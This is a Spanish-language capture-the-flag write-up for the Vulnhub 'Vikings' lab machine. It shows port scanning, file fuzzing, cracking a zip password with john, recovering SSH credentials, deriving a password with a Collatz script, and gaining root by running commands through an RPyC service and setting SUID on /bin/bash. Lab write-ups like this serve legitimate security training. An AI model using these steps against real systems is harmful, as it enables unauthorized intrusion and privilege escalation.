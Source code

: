 ```yaml
---
title: Vulnhub - Vikings
author: cotes
date: 2023-09-06 17:51:00 +0800
categories: [Writeup, Vulnhub, Easy]
tags: [Linux, 'Information Leakage', Criptografía, Rpyc]
math: true
mermaid: true
image:
  path: /assets/images/Vulnhub/Easy/Vikings/logo.jpg
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Vikings Machine Logo
---
```


Máquina Linux de nivel **Easy** de Vulnhub.

Técnicas usadas: **Information Leakage, Criptografía, Rpyc**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos en la **Máquina Vikings**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/Vulnhub/Easy/Vikings/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos.

* **`nmap -p<Ports> -sCV  <IP> -oN versiones`**

    ![](/assets/images/Vulnhub/Easy/Vikings/02-versions.png)

    * Tenemos una página web en **http://<IP>/site/**

c. Enumeramos por archivos **.zip, .txt, .php, .php.bak**

```bash
wfuzz -c -t 50 --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -z list,zip-txt-php-php.bak http://<IP>/site/FUZZ.FUZ2Z

000002545:   200        1 L      1 W        13 Ch       "war - txt" 
```

* Al ir al archivo **war.txt** veremos una ruta **/war-is-over**, y al ir conseguimos información, la cual nos descargaremos con cURL (La data está en **base64** por lo que antes de guardarla la decodemos)

    ```bash
    curl -s -X GET "http://192.168.100.14/site/war-is-over/" | base64 -d > data
    ```

d. Veremos el tipo de fichero

```bash
file data
data: Zip archive data, at least v5.1 to extract, compression method=AES Encrypted
```

* Cambiamos la extensión del archivo **mv data data.zip** y extraemos el hash para tratar de crackearlo con **john** usando el diccionario **rockyou.txt**

```bash
zip2john data.zip > hash
john hash -w=/usr/share/wordlists/rockyou.txt

ragnarok123
```

* Extraemos los archivos de **data.zip**, veremos que obtenemos un fichero **king**

e. Con **binwalk** extraeremos todo tipo de información de este fichero

```bash
binwalk -e king --run-as=root
```

Como resultado obtenemos un directorio **_king.extracted**, y dentro de este, el archivo **user**

```txt
//FamousBoatbuilder_floki@vikings                                     
//f@m0usboatbuilde7
```

f. Nos conectamos en el servicio SSH con las credenciales **floki:f@m0usboatbuilde7**

### Escalada de Privilegios 💹

a. En el directorio de **floki** existe el fichero **boat** y vemos que existe otro usuario **ragnar**

```bash
floki@vikings:~$ cat boat 
#Printable chars are your ally.
#num = 29th prime-number.
collatz-conjecture(num)
floki@vikings:~$ ls /home/
floki  ragnar
```

> La **conjetura de collatz** plantea que al realizar operaciones con un número, si es par lo dividimos en 2, caso contrario lo multiplicamos por 3 y el sumamos 1 y hacemos esta operación múltiples veces, siempre llegaremos al número 1, sin importar con que número empecemos. **Por ejemplo, tomando n = 6, la secuencia es: 6, 3, 10, 5, 16, 8, 4, 2, 1**
{: .prompt-tip }

b. Creamos un script en python con la lógica de la conjetura de collatz

```py

first_number = 109 # 29vo Numero Primo

password = chr(first_number)

while (first_number != 1):
	if (first_number % 2 == 0):
		first_number //= 2
	else:
		first_number = (first_number * 3) + 1

	if(first_number >= 32 and first_number <= 126):
		password += chr(first_number)

print(password)
---------------------------------------------------
mR)|>^/Gky[gz=\.F#j5P(
```

c. Intentamos autenticarnos como el usuario **ragnar** con la cadena obtenida previamente

```bash
floki@vikings:~$ su ragnar
Password: 
ragnar@vikings:/home/floki$ 
```

d. Leemos el archivo **.profile** del directorio personal de ragnar

```bash
ragnar@vikings:~$ cat .profile 
<SNIP>
sudo python3 /usr/local/bin/rpyc_classic.py
<SNIP>
```

> **`RPYC:`** (Remote Python Call) es un protocolo de comunicación utilizado para permitir la ejecución de código Python en un sistema remoto desde otro sistema, todo ello a través de la red. Por defecto, RPyC escucha en el puerto TCP 18812 para las conexiones de servicio y en el puerto TCP 18811 para las conexiones de registros.
{: .prompt-tip }

* De lo anterior observamos que podemos ejecutar **rpcy** como root, y al ver los puertos abiertos en la **Máquina Víctima** veremos que el puerto **18812** está abierto

e. Ejecutamos un comando usando rpcy

```python
import rpyc

def getshell():
    import subprocess
    result = subprocess.Popen("whoami", shell=True, stdout=subprocess.PIPE)
    return result.communicate()[0]

conn = rpyc.classic.connect("localhost")
fn = conn.teleport(getshell)
output = fn()
print(output.decode())
---------------------------------------------------------------------------
root
```

f. Asignamos el permiso **SUID** al bash **`chmod +s /bin/bash`** y spawneamos un shell como **root**

```bash
ragnar@vikings:~$ bash -p
bash-4.4# whoami
root
```